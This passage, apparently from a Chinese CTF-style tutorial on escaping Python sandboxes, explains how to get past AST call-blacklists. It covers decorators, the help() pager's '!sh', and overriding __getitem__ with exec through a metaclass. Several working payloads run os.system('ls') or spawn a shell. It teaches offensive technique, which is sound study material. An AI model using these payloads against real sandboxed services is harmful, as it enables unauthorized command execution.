 ```python
...     pass
... 
<class '__main__.X'>__import__("os").system("ls")
```
由于装饰器不会被解析为调用表达式或语句, 因此可以绕过黑名单, 最终传入的 payload 是由 input 接收的, 因此也不会被拦截.

其实这样的话,构造其实可以有很多,比如直接打开 help 函数.
```py
@help
class X:
    pass
```
这样可以直接进入帮助文档:
```py
Help on class X in module __main__:

class X(builtins.object)
 |  Data descriptors defined here:
 |  
 |  __dict__
 |      dictionary for instance variables (if defined)
 |  
 |  __weakref__
 |      list of weak references to the object (if defined)
(END)
```
再次输入 !sh 即可打开 /bin/sh


#### 函数覆盖

我们知道在 Python 中获取一个的属性例如 `obj[argument]` 实际上是调用的 `obj.__getitem__` 方法.因此我们只需要覆盖其 `__getitem__` 方法, 即可在使用 `obj[argument]` 执行代码:
```py
>>> class A:
...     __getitem__ = exec
... 
>>> A()['__import__("os").system("ls")']
```

但是这里调用了 A 的构造函数, 因此 AST 中还是会出现 ast.Call. 如何在不执行构造函数的情况下获取类实例呢? 

##### metaclass 利用
Python 中提供了一种元类(metaclass)概念。元类是创建类的“类”。在 Python中，类本身也是对象，元类就是创建这些类（即类的对象）的类。

元类在 Python 中的作用主要是用来创建类。类是对象的模板，而元类则是类的模板。元类定义了类的行为和属性，就像类定义了对象的行为和属性一样。

下面是基于元类的 payload, 在不使用构造函数的情况下触发
```py
class Metaclass(type):
    __getitem__ = exec 
    
class Sub(metaclass=Metaclass):
    pass

Sub['import os; os.system("sh")']
```
